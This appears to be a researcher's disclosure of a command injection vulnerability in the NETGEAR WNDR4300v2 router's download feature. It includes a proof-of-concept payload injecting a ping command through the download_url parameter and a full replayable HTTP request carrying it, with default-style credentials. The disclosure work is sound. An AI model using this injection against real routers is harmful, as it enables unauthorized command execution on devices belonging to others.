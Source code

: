 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:

In the NETGEAR Downloader (BETA) management interface, when using the http/ftp download method, the command is injected because the download_url parameter is not filtered.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563845628838.png)

The location of the vulnerability in the code:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783680056.png)

Introduced by formatting a string:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783785816.png)

Finally, execute the command through system:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783822607.png)


Poc:

`http://192.168.195.132:8000/1.txt';ping 192.168.1.8;echo'`


The same, plug in the USB on the router, then turn on the wireshark to monitor the WLAN traffic.

Click Add, then you can see the icmp traffic in wireshark, that is, execute the ping command:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563783126807.png)
In the above, I did not use BurpSuite. If I want to use it, the replay package is as follows:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563845701854.png)

HTTP Request:
```HTTP:
POST /apply.cgi?/GREEN_http_basic.htm%20timestamp=380767450332 HTTP/1.1
Host: 192.168.1.1
Content-Length: 476
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_http_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI4MDQ5IiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.2b74af449894c35b2336767a3ed19d0f9f2a177a79bddafa290b85d62b379f33
Connection: close

submit_flag=add_download_item&download_type=http&green_download_open_flag=&enable_green_download=on&download_type_1=http&download_url=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&user_name=&password=&user_name_hid=&password_hid=&decodeurl=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2
```
